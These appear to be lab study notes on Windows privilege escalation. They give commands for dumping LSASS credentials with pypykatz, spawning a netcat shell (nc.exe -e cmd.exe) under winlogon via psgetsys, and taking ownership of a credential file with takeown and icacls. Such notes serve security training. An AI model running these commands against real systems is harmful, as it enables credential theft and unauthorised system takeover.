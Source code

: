 - Dump Locally :
```sh
pypykatz lsa minidump lsass.dmp
```
https://github.com/skelsec/pypykatz

**Tools:**

- Download psgetsystem from:
```sh
wget https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1
```

- Run command:
```powershell
import-module .\psgetsys.ps1

Get-Process winlogon

[MyProcess]::CreateProcessFromParent("552","c:\windows\system32\cmd.exe", "/c c:\windows\temp\nc.exe 127.0.0.1 4444 -e cmd.exe")
```

- Download SeDebugPrivilegePoC from:
```sh
wget https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC
```

#### SeTakeOwnershipPrivilege:
#SeTakeOwnershipPrivilege

**View File Ownership:**
```python
 Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

cmd /c dir /q 'C:\Department Shares\Private\IT'
```

**Change File Ownership:**
```python
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

###  Windows Group Privileges :

#### Backup Operators
#Backup_Operators

 **Copying a Protected File:**
 
- Download modules:
```sh
wget https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug
```
